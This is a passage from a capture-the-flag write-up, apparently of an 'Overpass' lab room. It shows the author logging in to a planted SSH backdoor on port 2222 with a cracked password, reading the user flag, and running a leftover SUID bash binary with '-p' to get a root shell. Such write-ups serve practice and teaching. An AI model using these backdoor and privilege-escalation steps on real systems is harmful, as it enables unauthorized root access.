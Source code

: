 We have 2 SSH (port 22 and 2222) and Apache server
We can't log into any of the accounts with cracked passwords on port 22, 

but we can log in for backdoor on port 2222
```
$ ssh -v -oHostKeyAlgorithms=+ssh-rsa -p 2222 james@10.10.99.160
[...]
james@10.10.99.160's password: 
[...]

james@overpass-production:/home/james/ssh-backdoor$ 

```
I had too use `-oHostKeyAlgorithms=+ssh-rsa` to set a proper host key type

Let's get the user flag
```
$ cd ~
$ cat user.txt
[Flag]

```

Now the last part - Privilege Escalation

List the directory
```
$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www

```

There is a suspicious binary `.suid_bash` - And we can run it

Let's do it
```
$ ./.suid_bash -p
# cd /root
# cat root.txt
[Root flag]

```
And we have it - we acquired our last flag

## Conclusion

I liked this room, as I said before I love PCAP analysing

This was interesting room and as far as I remember it took me like 2 hours heh